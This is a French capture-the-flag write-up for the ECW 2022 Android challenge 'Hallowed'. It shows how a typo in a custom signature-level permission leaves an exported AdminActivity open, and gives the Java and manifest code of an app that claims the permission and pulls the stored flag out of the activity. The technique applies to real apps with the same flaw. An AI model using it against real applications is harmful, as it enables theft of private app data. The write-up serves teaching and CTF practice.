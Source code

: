 # ECW 2022 Write Up

## ANDROID - Hallowed - 51 solves - 438 pts

Dans ce challenge des instructions nous sous fournies afin de déployer une application Android sur une image docker.
Le but est de déployer une application (qui sera automatiquement executé sur l'android virtualisé) qui exploitera la vulnérabilité de l'application préalablement installé sur l'appareil.

![Enonce](images/enonce.png)

Les fichiers fournis dans le challenge sont disponnibles dans le dossier `enonce`.

### Analyse de l'application

La première étape consiste à analyser l'application. Un excellent outil que j'aime utiliser est [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) disponible dans sa version live [ici](https://mobsf.live/).
Pour ma part je vais lancer l'application en local grâce à Docker:

```Bash
docker run -p 8000:8000 opensecurity/mobile-security-framework-mobsf 
```

Une fois l'appli lancé on se connecte sur l'interface web http://127.0.0.1:8000 et on upload l'apk :

![MobSF](images/mobsf.png)

On prend le temps d'installer Android Studio durant l'analyse. Une fois l'analyse terminé on peut parcourir le report afin de detecter les vulnérabilités évidente.  
Le rapport de l'analyse est disponnible [ici](report.pdf).  
L'application ne présente visiblement pas de vulnérabilité grave, une chose retient cependant notre attention :

![allowBackup](images/permissions.png)

Il semblerait que cette application utilise des permissions personalisées.  
En se renseignant sur des exploits liés aux permissions ont tombe sur l'excellent blog [Common mistakes when using permissions in Android](https://blog.oversecured.com/Common-mistakes-when-using-permissions-in-Android/).

### Extraction des sources

Pour en savoir plus nous allons devoir lire le code source de l'application. Il est possible d'utiliser le paquet apktool mais, il n'est possible d'extraire les sources que en smali et personnellement je préfère lire les sources directement en Java. Heuresement MobSF nous permet de télécharger les sources Java une fois l'analyse terminé.

Les sources extraites sont disponnibles dans le dossier `sources`.

```Bash
sources
└── com
    ├── ecw2022
    │  └── hallowed
    │      ├── AdminActivity.java
    │      ├── BuildConfig.java
    │      ├── FunnyActivity.java
    │      ├── MainActivity.java
    │      ├── R.java
    │      └── UserActivity.java
    └── google

```

On repère dans le AndroidManifest ces lignes qui nous interpellent :

```xml
<permission android:name="com.ecw2022.ADMIN_PERM_DO_NOT_ACCESS" android:protectionLevel="signature" />
<uses-permission android:name="com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS" />
<activity android:name="com.ecw2022.hallowed.AdminActivity" android:permission="com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS" android:exported="true">
```

Ces lignes font échos au blog que nous venons de parcourir puisqu'on peut observer une erreur de typo dans la permission `com.ecw2022.ADMIN_PERM_D._N.T_ACCESS`.

La balise `android:protectionLevel="signature"` nous empèche d'utiliser la permission dans notre application à moins de signer notre apk avec le même certificat que l'application fourni (certificat que nous ne possédons pas).

Mais puisque il y a une erreur de type la permission `com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS` n'est pas déclaré, et une permission non déclaré est initialisé par défaut avec la balise `android:protectionLevel="normal"`. La permission "normal" permet à n'importe quelle application de s'octroyer cette permission de manière transparente sans aucune demande à l'utilisateur.

La balise `exported="true"`, quand à elle, signifie que l'activité AdminActivity peut être lancé depuis n'importe qu'elle autre activité, qu'elle vienne de la même application ou bien d'une autre.

Voyons si notre application est en mesure d'exploiter quelque chose dans cette activité.

AdminActivity.java
```Java
public class AdminActivity extends AppCompatActivity {

    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = new Intent();
            intent.putExtra("flag", getApplicationContext().getSharedPreferences("prefs", 0).getString("flag", "nope"));
            setResult(300, intent);
            finish();
        } catch (Exception e) {
            Log.e("FAIL", Log.getStackTraceString(e));
        }
    }
}
```

Je vais essayer d'expliquer rapidement pour les neophytes comment cet extrait de code est interprété par Android.

- La fonction [onCreate()](https://developer.android.com/reference/android/app/Activity#onCreate(android.os.Bundle)) est appelé lorsque l'activité est démarré pour la première fois.
- Un [Intent](https://developer.android.com/reference/android/content/Intent) est un message asynchrone qui permet aux activités android de communiquer entre elles.
- La fonction [putExtra()](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)) permet de copier une valeur dans une clé (ici "flag") dans l'intent.
- La fonction [setResult()](https://developer.android.com/reference/android/app/Activity#setResult(int,%20android.content.Intent)) permet d'enregister les informations d'un intent afin de le retourner à l'activité qui sera repris à la fermeture de l'activité en cours.
- La fonction [finish()](https://developer.android.com/reference/android/app/Activity#finish()) termine l'activité en cours et renvoie à l'activité précédente.

D'après l'analyse de cet extrait de code voila le WorkFlow qui devra être accompli par notre application :

Au lancement de l'application :
- Déclarer la permission `com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS` (nous pouvons nous octroyer la déclaration de la permission puisque elle n'à pas été proprement initialisé dans l'application hallowed)
- S'octroyer la permission `com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS`
- Lancer l'activité AdminActivity de l'application com.ecw2022.hallowed

À la reprise de l'application :
- Récupérer les informations renvoyés par l'Intent de CryptoActivity.
- Afficher la valeur de l'extra "flag"

### Developpement de notre Application

Je vous invite à initialiser un projet Android "Empty Activity" en Java avec [AndroidStudio](https://developer.android.com/studio?hl=fr).
Comme nous l'informe la note fourni par les organisateurs :
* its package name must be `com.ecw2022.app`
* its main activity must be `MainActivity`

Les sources de l'application que j'ai developpé sont disponnibles dans le dossier `app`.

MainActivity.java
```Java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("com.ecw2022.hallowed", "com.ecw2022.hallowed.AdminActivity");
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode == 1) {
            if(resultCode == 300){
                String result=data.getStringExtra("flag");
                Log.d("{ECW2022}","{ECW2022} : "+ result);
            }
        }
    }
}
```

- La fonction [setClassName()](https://developer.android.com/reference/android/content/Intent#setClassName(java.lang.String,%20java.lang.String)) permet de définir l'activité et l'application dont elle provient que l'intent doit appeler.

- La fonction [startActivityForResult()](https://developer.android.com/reference/android/app/Activity#startActivityForResult(android.content.Intent,%20int)) permet de déclancher l'intent passé en paramètre et d'attendre un retour de cette activité. De cette manière la fonction onActivityResult() sera appelée.

On s'assure que la balise package soit bien renseigné dans le manifest et on déclare les permissions que nous devons utilser :

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.ecw2022.app">
<permission android:name="com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS"/>
<uses-permission android:name="com.ecw2022.ADMIN_PERM_D0_N0T_ACCESS"/>
```
Une fois l'application buildé on extrait le fichier app-debug.apk afin de l'envoyer à l'image docker.

```Bash
curl -v -F 'apk=@app-debug.apk' http://213.32.7.237:21851/apk 

*   Trying 213.32.7.237:21851...
* Connected to 213.32.7.237 (213.32.7.237) port 21851 (#0)
> POST /apk HTTP/1.1
> Host: 213.32.7.237:21851
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 6885822
> Content-Type: multipart/form-data; boundary=------------------------cbb0ea56cff1ebd7
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=utf-8
< Content-Length: 308
< Date: Thu, 03 Nov 2022 09:55:41 GMT
< Server: Python/3.10 aiohttp/3.8.1
< 
* Connection #0 to host 213.32.7.237 left intact
[
    "virtual device up",
    "virtual device booted",
    "installing vulnerable app",
    "vulnerable app installed",
    "installing candidate app",
    "candidate app installed",
    "candidate app started", "11-03 09:50:42.687  2674  2674 D {ECW2022}: {ECW2022} : ECW{e5a23c67214e907dab10aec3a5db4f76}",
    "virtual device destroyed"
]
```

Le temps de patienter on part se faire un petit kawa et au retour le flag est dans la poche !